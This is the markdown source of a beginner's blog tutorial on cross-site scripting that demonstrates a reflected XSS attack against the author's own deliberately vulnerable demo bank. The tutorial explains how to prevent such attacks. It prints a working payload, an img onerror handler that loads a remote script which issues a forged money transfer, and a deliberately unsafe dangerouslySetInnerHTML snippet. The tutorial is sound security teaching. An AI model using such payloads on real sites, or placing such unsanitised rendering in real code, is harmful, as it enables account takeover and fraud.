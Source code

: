```yaml
---
title: "Web Security 101: Cross-Site Scripting (XSS) Attacks"
date: "2020-06-01T12:00:00.000Z"
template: "post"
draft: false
isWeb: true
slug: "/blog/xss/"
img: "https://victorzhou.com/media/xss-post/dsb_4.png"
category: "Security"
tags:
  - "Security"
  - "Web Development"
  - "For Beginners"
  - "Demo"
  - "Javascript"
description: A hands-on beginner's guide to what XSS attacks are and how to prevent them.
prev: "/blog/csrf/"
next: "/blog/properly-size-images/"
---
```


Cross-Site Scripting (XSS) vulnerabilities are one of the most dangerous web security holes that exist. In this post, we'll see an **interactive demo of XSS** and learn how to protect against it.

> This is the second post in my [Web Security 101](/tag/security/) series. If you've read my introduction to CSRF, some of the preamble below might look familiar... feel free to skip ahead a bit.

## Setting the Scene

Picture this: you're a responsible, hardworking person. You've saved up your money over the years at **Definitely Secure Bank®**.

![The Definitely Secure Bank logo.](./media-link/csrf-post/dsb.svg)

You love Definitely Secure Bank - they've always been good to you, plus they make it easy to transfer money and more via their website. Sweet, right?

To get in character, let's have you open up your online banking portal and look around. <b><a href="https://dsb.victorzhou.com/login" target="_blank">Click here to open Definitely Secure Bank's website</a></b> and login. Use **any username** and **any password** you want (don't worry - it's _definitely_ secure). Keep that tab open for the rest of this post.

Once you've logged in, you should see a landing page that looks something like this:

![](./media-link/xss-post/dsb_1.png)

Click the **"Try searching for the answer"** link. That will bring you to the Search page. Play around with it:

![](./media-link/xss-post/dsb_2.png)

Not a very helpful Search page.

## One Fateful Day...

...you get an email titled: **FREE 🎁 iPhone giveaway!!!**

You open the email and click the link: **[➡️ Claim your free iPhone ⬅️](
https://dsb.victorzhou.com/search?q=%3Cimg%20src%3D%22%23%22%20onerror%3D%22const%20a%3Ddocument.createElement(%27script%27)%3Ba.src%3D%27https%3A%2F%2Fvictorzhou.com%2Fxss-demo.js%27%3Bdocument.body.appendChild(a)%3B%22%20%2F%3E)**.

> Yes, I actually want you to click this link for the purposes of the demo.

Assuming you were logged in to Definitely Secure Bank (DSB), you should see something like this after clicking the link:

![](./media-link/xss-post/dsb_3.png)

It's a little weird that it took you to your bank's website, but it just seems like a broken link, right? Nothing to worry about?

Click back to your DSB homepage, and you should see a new transfer:

![](./media-link/xss-post/dsb_4.png)

How did that happen?!

## How It Happened

The key vulnerability here is that the DSB search results page **echoes the search query without sanitizing it**. Remember this screenshot from earlier?

![](./media-link/xss-post/dsb_2.png)

Notice how the search query ("How do I transfer money") is echoed back onto the page: _Unfortunately, no results were found for **How do I transfer money**_.

What if our search query was a valid HTML string?

![](./media-link/xss-post/dsb_5.png)

Woah. That HTML `<a>` tag actually renders and functions as a link. Seems insecure, doesn't it?

Let's look at the demo attack from earlier. The attacker used a link to the DSB search results page with this format:

https://dsb.victorzhou.com/search?q=SEARCH_QUERY_HERE

The value of `SEARCH_QUERY_HERE` was:

```
%3Cimg%20src%3D%22%23%22%20onerror%3D%22const%20a%3Ddocument.createElement(%27script%27)%3Ba.src%3D%27https%3A%2F%2Fvictorzhou.com%2Fxss-demo.js%27%3Bdocument.body.appendChild(a)%3B%22%20%2F%3E
```

which [URL decodes](https://www.quora.com/What-is-URL-encoding-and-decoding) to:

```
<img src="#" onerror="const a=document.createElement('script');a.src='https://victorzhou.com/xss-demo.js';document.body.appendChild(a);" />
```

Look familiar? Let me syntax highlight that for you:

```html
<img src="#" onerror="const a=document.createElement('script');a.src='https://victorzhou.com/xss-demo.js';document.body.appendChild(a);" />
```

It's an image tag sourced from `"#"`, which errors and runs the Javascript code contained in the `onerror`! Here's the `onerror` code prettified:

```js
const a = document.createElement('script');
a.src = 'https://victorzhou.com/xss-demo.js';
document.body.appendChild(a);
```

This downloads the `xss-demo.js` script (which could be _anything_) and executes it. Here's what it contained in our case:

```js
// Header: xss-demo.js
const body = new URLSearchParams('amount=5000&description=Gotcha!&to=XSS-Attackers');
fetch('/transfer', {
  body,
  method: 'post',
});
```
<figcaption>Uses the <a href="https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API" target="_blank" rel="noopener noreferrer">Fetch API</a></figcaption>.

This sends an [HTTP POST](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/POST) request to the Definitely Secure Bank's (DSB) `/transfer` endpoint with these parameters:

| Parameter | Value |
| --- | --- |
| `amount` | 5000 |
| `description` | Gotcha! |
| `to` | XSS-Attackers |

**This request is identical to a legitimate transfer request** you would've created yourself. That's why XSS vulnerabilities are so dangerous - **the attacker can completely impersonate you** and do anything you could've done.

To summarize how clicking a spam link ended with you losing $5000:
- The link brought you to DSB's search results page, which unsafely reflects your search query.
- The search query was actually HTML code that caused your browser to download and execute an arbitrary script.
- That script sent a transfer request to the DSB server.
- The DSB server processed the request, since it saw nothing wrong.

There you have it: Cross-Site Scripting.

## Reflected vs. Stored XSS

The example above was an instance of **reflected XSS**, because it depended on DSB immediately reflecting a user input (the search query) back onto the page.

The other common type of XSS is **stored XSS** (or persistent XSS). This happens when the malicious code (usually an injected script, like in our example) is **stored on the target site's servers**. A classic example is storing user-generated comments without sanitizing them. An attacker could leave a malicious comment that injects a script, and **anyone who views that comment would be affected**.

## Do CSRF tokens protect against XSS?

You may have noticed that the `/transfer` endpoint has no [Cross-Site Request Forgery](/blog/csrf/) (CSRF) protection, which typically includes requiring a [CSRF token](/blog/csrf/#so-how-do-you-prevent-csrf-then). This was on purpose because it's used in my [CSRF demo](/blog/csrf/), which I recommend reading if you don't know what CSRF is.

To answer the question: **CSRF protection does nothing to prevent XSS** because XSS attacks don't originate from a different site, whereas CSRF attacks do. When done correctly, a request created by an XSS attack looks completely legitimate.

## How _do_ you prevent XSS?

It's simple: **sanitize user inputs**. Anytime you're inserting untrusted (user-generated) data onto your webpage, clean it first.

_How_ to do this cleaning is a bit outside of the scope of this post, but the good news is that it often comes for free. For example, [React](https://reactjs.org/), which the DSB site is built with, uses [JSX](https://reactjs.org/docs/introducing-jsx.html) syntax, which automatically [escapes values before rendering](https://reactjs.org/docs/introducing-jsx.html#jsx-prevents-injection-attacks) them, helping to prevent XSS attacks. To make the DSB search page vulnerable to XSS, I had to do this:

```jsx
<p>
  Unfortunately, no results were found for{' '}
  <span dangerouslySetInnerHTML={{ __html: query }} />.
</p>
```
<figcaption>
  DSB is open-source: you can see this code on <a href="https://github.com/vzhou842/definitely-secure-bank/blob/master/src/Search.js#L47-L50" target="_blank" rel="noopener noreferrer">Github</a>.
</figcaption>

Yup. It's named `dangerouslySetInnerHTML` for a reason.

If you're interested in the specifics of XSS prevention, I recommend this [XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html). Alternatively, if you want to learn more about web security in general, check out my [introduction to CSRF](/blog/csrf/) as mentioned before.

Thanks for reading, and stay safe!
